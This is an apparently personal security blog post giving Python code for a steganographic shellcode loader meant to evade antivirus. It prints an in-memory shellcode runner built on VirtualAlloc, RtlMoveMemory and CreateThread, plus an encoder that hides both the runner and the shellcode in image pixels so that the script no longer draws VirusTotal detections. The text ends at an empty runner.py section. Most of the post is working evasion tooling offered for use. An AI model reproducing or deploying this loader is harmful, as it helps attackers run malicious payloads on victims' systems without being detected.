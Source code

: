 ```yaml
---
title: "Cloaked in Pixels: Evasion update"
categories:
  - Defence Evasion
toc: true
---
```


Around this time last year I released a blog post which covered an analysis of a PoC steganographic shellcode encoder and runner, which I wrote in Python. The aim of this project was to produce a set of scripts that abused least significant bit steganography to encode and run malicious payloads for evasion purposes. This script was able to do so, but had a pitfall which could easily lead to a trivial detection. This blog post follows my prior one, which explains in detail how the technique works. You can find the first blog linked [here](https://polygonben.github.io/defence%20evasion/Creating-Stego-payloads/).

This blog post will detail: the new code that has been used, how it is preferential for evasion, and instructions for use.

# Old code pitfall

As mentioned, the previous code had an issue which could lead to trivial detection by any analyst. This issue was introduced as a result of our execution method. I used the Python `ctypes` library to interface with Win32 API functions like `VirtualAlloc`, `RtlMoveMemory`, `CreateThread` and `WaitForSingleObject` to allocate memory, move shellcode into that memory, and execute it. The code can be viewed below:

```python
#!/usr/bin/python
from PIL import Image
import ctypes
import binascii

def binary_to_text(binary_data):
    # Convert binary data to text format
    return ''.join(chr(int(binary_data[i:i+8], 2)) for i in range(0, len(binary_data), 8))

def decode_lsb(encoded_image_path):
    encoded_image = Image.open(encoded_image_path)
    
    # Convert the image to RGB mode (if it's not already)
    encoded_image = encoded_image.convert("RGB")

    width, heigthread = encoded_image.size
    binary_data = ""

    # Extract binary data from the least significant bits of the pixels
    for y in range(heigthread):
        for x in range(width):
            pixel = encoded_image.getpixel((x, y))
            for channel in range(3):  # 3 channels (RGB)
                # Extract the least significant bit and append to binary data
                binary_data += format(pixel[channel] & 1, '01')

    # Find the index of the null character '\0' to mark the end of the data
    end_index = binary_data.find("00000000")
    binary_data = binary_data[:end_index]
    plaintext_data = binary_to_text(binary_data)

    if plaintext_data[-1:] != '"':
        bad_char = plaintext_data[-1:]
        plaintext_data = plaintext_data.replace(bad_char, '"')
    hex_array = plaintext_data.split('"')
    buffer = b''
    for i in hex_array:
        if i != '':
            buffer += '{}'.format(i).encode()
    return buffer

def shellcode_exec(shellcode_raw):

    shellcode = bytearray(shellcode_raw)

    pointer = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
 
    buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
 
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(pointer),
                                     buffer,
                                     ctypes.c_int(len(shellcode)))
 
    thread = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(pointer),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))
 
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(thread),
                                         ctypes.c_int(-1))

encoded_image_path = "poc_example.png"
shellcode_str = decode_lsb(encoded_image_path)
shellcode = binascii.unhexlify(shellcode_str.decode().replace('\\x', ''))
shellcode_exec(shellcode)
```
From the above we can see 3 functions: 

* `decode_lsb()` - This function takes a file path to an stego-encoded image as input, loops through each pixel of the image, extracting purely the least-signficant encoded bit to decode and reconstruct the "secret" text

* `binary_to_text()` - This function takes binary data as input and converts it to a plaintext string

* `shellcode_exec()` - This function uses Win32 API to load malicious shellcode into memory and execute it

From the above, the issues are introduced in the `shellcode_exec()` function. Although no malicious shellcode is stored in a "readable" format within the Python script (i.e. it is loaded into memory upon execution, when it is decoded), the functions `VirtualAlloc`, `RtlMoveMemory`, `CreateThread` & `WaitForSingleObject` do exist in plaintext within the script, and this can definitely indicate malicious activity, without the malicious shellcode existing in the first place. Anti-virus detection engines may be configured to block or quarantine certain scripts containing those above function names. We can see this is the case by uploading this old steganographic shellcode runner to VirusTotal:

[![1](/assets/images/PyStegMalz2/1.PNG)](/assets/images/PyStegMalz2/1.PNG){: .align-center}

As we can see there has been 17/65 VirusTotal detections for this script due to existence of certain functions which can indicate malicious activity. The below updated code gets rid of this issue by steganographically encoding this `shellcode_exec()` function alongside the encoded shellcode within an image.


## encoder.py

```python
from PIL import Image
import argparse
import base64

parser = argparse.ArgumentParser()
parser.add_argument('-s', '--shellcode', required=True, help='Please supply file path to shellcode text file')
parser.add_argument('-i', '--image', required=True, help='Please supply file path to image file to be encoded')
args = parser.parse_args()

runner_string = """shellcode = bytearray(buf)
pointer = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                      ctypes.c_int(len(shellcode)),
                                      ctypes.c_int(0x3000),
                                      ctypes.c_int(0x40))
buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(pointer),
                                 buffer,
                                 ctypes.c_int(len(shellcode)))
thread = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                     ctypes.c_int(0),
                                     ctypes.c_int(pointer),
                                     ctypes.c_int(0),
                                     ctypes.c_int(0),
                                     ctypes.pointer(ctypes.c_int(0)))
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(thread),
                                    ctypes.c_int(-1))"""

with open(args.shellcode, 'r') as shellcode:
    shellcode_in_text_file = shellcode.read().rstrip() + runner_string

# Encode the shellcode to base64
encoded_shellcode = base64.b64encode(shellcode_in_text_file.encode()).decode()

print(encoded_shellcode)

def text_to_binary(text_data):
    # Convert text data to binary format
    return ''.join(format(ord(char), '08b') for char in text_data)

def encode_lsb(image_path, plaintext_data, output_path):
    image = Image.open(image_path)
    
    # Convert the image to RGB mode (if it's not already)
    image = image.convert("RGB")

    width, height = image.size
    max_data_length = (width * height) * 3  # 3 channels (RGB) per pixel

    # Convert plaintext to binary format
    binary_data = text_to_binary(plaintext_data)

    # Append a special character to mark the end of the data
    binary_data += "00000000"  # Null character '\0'

    # Check if the data can fit into the image
    data_length = len(binary_data)
    if data_length > max_data_length:
        raise ValueError("Data too large for the image.")

    # Copy image
    encoded_image = image.copy()
    binary_index = 0

    # Embed binary data into the image using LSB steganography
    for y in range(height):
        for x in range(width):
            pixel = list(image.getpixel((x, y)))
            for channel in range(3):  # 3 channels (RGB)
                if binary_index < len(binary_data):
                    # Modify the least significant bit of the pixel
                    pixel[channel] = pixel[channel] & ~1 | int(binary_data[binary_index])
                    binary_index += 1
                else:
                    break
            encoded_image.putpixel((x, y), tuple(pixel))

    # Output
    encoded_image.save(output_path)
    print("Payload encoded and image saved to: poc_{}".format(image_path))

# Example usage:
if __name__ == "__main__":
    image_path = args.image
    encode_lsb(image_path, encoded_shellcode, "poc_{}".format(image_path))
```

Comparing this new code to the old version, we can see we've created the string `runner_string`, which contains the Python code required for running shellcode using Win32 API functions. Like before, we read in the malicious shellcode hosted on an external file, and store it in the variable `shellcode_in_text_file`, this time with the aforementioned `runner_string` variable appended to it. Upon execution, the `runner_string` variable (which contains all the Python code required for shellcode execution) is encoded within our image.

## runner.py

```python
```